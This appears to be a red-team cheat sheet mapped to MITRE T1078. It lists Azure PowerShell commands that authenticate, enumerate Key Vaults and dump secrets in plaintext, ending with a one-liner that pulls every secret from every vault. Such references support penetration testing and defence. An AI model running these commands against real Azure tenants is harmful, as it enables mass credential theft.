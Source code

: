 # Dump Keyvault secret Powershell

**Description:** This entry details how to authenticate to an Azure account with Powershell, list keyvaults, and dump a password in plain text 

**Requirements:** AZ Powershell

**Mitre Att&ck:** [T1078](https://attack.mitre.org/techniques/T1078/)

## Dump a single secret

```powershell
Connect-AzAccount
```

Authenticate to Azure account

```powershell
Get-AzKeyVault
```

List all vaults

```powershell
Get-AzKeyVaultSecret -VaultName <keyvault_name>
```

List all secrets

```powershell
Get-AzKeyVaultSecret -VaultName '<keyvault_name>' -Name '<secret_name>' -AsPlainText
```

Dump secret as plain text

```powershell
$secret_name = Get-AzKeyVaultSecret -VaultName <keyvault_name> | select Name
$secret_name | ForEach-Object { Get-AzKeyVaultSecret -VaultName '<keyvault_name>' -Name $_.Name -AsPlainText }
```

Generate list of keyvault secrets and dump each one in plaintext

```powershell
$vaults = Get-AzKeyVault | select VaultName
$secret_names = $vaults | ForEach-Object { Get-AzKeyVaultSecret -VaultName $_.VaultName | select VaultName, Name }
$secret_names | ForEach-Object { Get-AzKeyVaultSecret -VaultName $_.VaultName -Name $_.Name -AsPlainText }
```

Generate list of keyvaults, discover all secrets in vaults, dump all passwords from all vaults in plaintext

## References
* https://docs.microsoft.com/en-us/powershell/module/az.keyvault/get-azkeyvaultsecret?view=azps-6.1.0
